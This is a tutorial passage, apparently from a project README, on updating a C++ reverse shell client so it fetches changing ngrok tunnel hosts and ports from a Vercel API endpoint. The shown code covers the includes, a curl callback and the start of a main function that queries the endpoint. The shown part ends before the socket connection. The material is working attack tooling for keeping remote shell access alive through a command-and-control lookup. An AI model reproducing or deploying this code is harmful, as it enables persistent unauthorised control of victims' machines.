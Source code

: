 

## Updating the Client Code

To make your reverse shell resilient to changing ngrok hostnames and ports, we update the client code to **fetch tunnel information dynamically** from the Vercel API.

---

### 1. Include Required Libraries
```cpp
#include <iostream>
#include <string>
#include <curl/curl.h>
#include <nlohmann/json.hpp>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

using json = nlohmann::json;
```
- `libcurl` handles HTTP requests to fetch the API response.
- `nlohmann/json` parses the JSON returned by the API.
- Standard POSIX headers are used for socket connections and I/O redirection.

---

### 2. Callback for Curl
```cpp
size_t WriteCallback(void *contents, size_t size, size_t nmemb, void *userp)
{
    ((std::string *)userp)->append((char *)contents, size * nmemb);
    return size * nmemb;
}
```
- Captures the HTTP response from the Vercel API into a `std::string`.

---

### 3. Main Function
```cpp
int main()
{
    std::string url = "https://my-api-wine-iota.vercel.app/tunnel";
    std::string readBuffer;

    CURL *curl = curl_easy_init();
    if (curl)
    {
        curl_easy_setopt(curl, CURLOPT_URL, url.c_str());
        curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, WriteCallback);
        curl_easy_setopt(curl, CURLOPT_WRITEDATA, &readBuffer);

        CURLcode res = curl_easy_perform(curl);
        if (res != CURLE_OK)
        {
            std::cerr << "curl_easy_perform() failed: " << curl_easy_strerror(res) << "\n";
            return 1;
        }
        curl_easy_cleanup(curl);
```